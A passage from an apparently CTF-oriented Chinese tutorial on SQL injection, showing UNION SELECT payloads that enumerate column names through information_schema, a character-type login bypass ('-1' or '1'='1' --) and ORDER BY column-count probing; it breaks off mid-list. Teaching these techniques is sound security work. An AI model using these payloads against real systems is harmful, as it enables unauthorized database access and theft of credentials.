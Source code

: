     ![image-20230426201306290](https://nssctf.wdf.ink/img/WDTJ/202304262013324.png)
*   下面就是去获得 表 的对应字段名 方便我们最后一步的查询工作

    这里我们使用`UNION` `GROUP_CONCAT(column_name)` 和 `information_schema.columns`

    ```sql
    1 union select 1,group_concat(column_name) from information_schema.columns where table_schema=database()
    1 union select group_concat(column_name),2 from information_schema.columns where table_schema=database()
    # 后台执行为：
    SELECT username,password FROM users WHERE id = 1 union select group_concat(column_name),2 from information_schema.columns where table_schema=database();
    ```

    ![image-20230426202627021](https://nssctf.wdf.ink/img/WDTJ/202304262026058.png)

### 字符型注入

下面我们假设一个登录系统，那么他会接收两个参数 用户名和密码 后台的查询语句可能这样写

```sql
SELECT * FROM users WHERE username='$username' AND password='$password';
```

对于这种，开发时，预期数据收到的参数都为字符，使用字符进行查询的数据库的注入漏洞 我们称为字符型注入。

与数字型不同的是，我们需要先构造单引号的闭合。

这里我们让 `$username` = `-1' or '1'='1' --`

```sql
SELECT * FROM users WHERE username='-1' or '1'='1' -- ' AND password='$password';
```

![image-20230426203250434](https://nssctf.wdf.ink/img/WDTJ/202304262032468.png)

就可以使`Where`的条件永真,直接输出`SELECT * FROM users`的所有内容。

同样，与数字型的注入方式类似，我们也可以使用联合查询的方法来获取数据库信息。

`order by` 判断列数

```sql
SELECT * FROM users WHERE username='-1' or '1'='1' order by 1-- ' AND password='$password';
SELECT * FROM users WHERE username='-1' or '1'='1' order by 2-- ' AND password='$password';
SELECT * FROM users WHERE username='-1' or '1'='1' order by 3-- ' AND password='$password';
SELECT * FROM users WHERE username='-1' or '1'='1' order by 4-- ' AND password='$password'; # 报错
```

![image-20230426213252233](https://nssctf.wdf.ink/img/WDTJ/202304262132275.png)

那么接下来就和数字型注入相同 吧 `order by NUM` 换成对应的语句即可：

* 库名
